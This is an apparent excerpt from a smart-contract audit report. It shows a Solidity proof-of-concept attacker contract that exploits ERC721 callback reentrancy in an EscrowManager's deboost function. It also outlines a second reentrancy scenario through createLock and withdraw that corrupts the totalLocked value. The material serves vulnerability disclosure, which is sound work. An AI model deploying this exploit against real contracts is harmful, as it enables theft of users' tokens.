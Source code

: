 ```
}
```

Second, the hacker's contract:
```solidity
contract HackerHolder is ERC721Holder {
  ICollection public immutable COLLECTION;
  EscrowManager es;
  uint escrowId;
  uint boostId;
  uint256[] collectionTokenIds;
  uint exploiting;

  constructor(
      EscrowManager es_, 
      uint escrowId_, 
      uint boostId_, 
      address collection) {
    COLLECTION = ICollection(collection);
    es = es_;
    escrowId = escrowId_;
    boostId = boostId_;
  }

  function exploit() external {
    delete collectionTokenIds;
    collectionTokenIds.push(boostId);
    collectionTokenIds.push(boostId);
    exploiting = collectionTokenIds.length - 1;

    es.deboost(escrowId, collectionTokenIds);
  }

  function onERC721Received(
    address,
    address,
    uint256,
    bytes memory
  ) public virtual override returns (bytes4) {
    if (exploiting > 0) {
      exploiting--;
      COLLECTION.transferFrom(address(this), address(es), boostId);
    }
    return super.onERC721Received.selector;
  }
}
```

**Example 2**: A hacker can corrupt storage variables via `createLock()` and `withdraw()` methods.

**Attack Scenario:**
1. The attacker calls the `createLock()` method to mint a new NFT lock.
2. During the `_safeMint()` process, the `ERC721Utils.checkOnERC721Received()` callback is triggered on the attacker’s contract.
3. Within this callback, the attacker calls `EscrowManager.withdraw()`, burning the newly minted NFT. 
4. At this point, the NFT’s state has not yet been fully updated in the `createLock()` function, allowing the attacker to corrupt the **totalLocked** value.
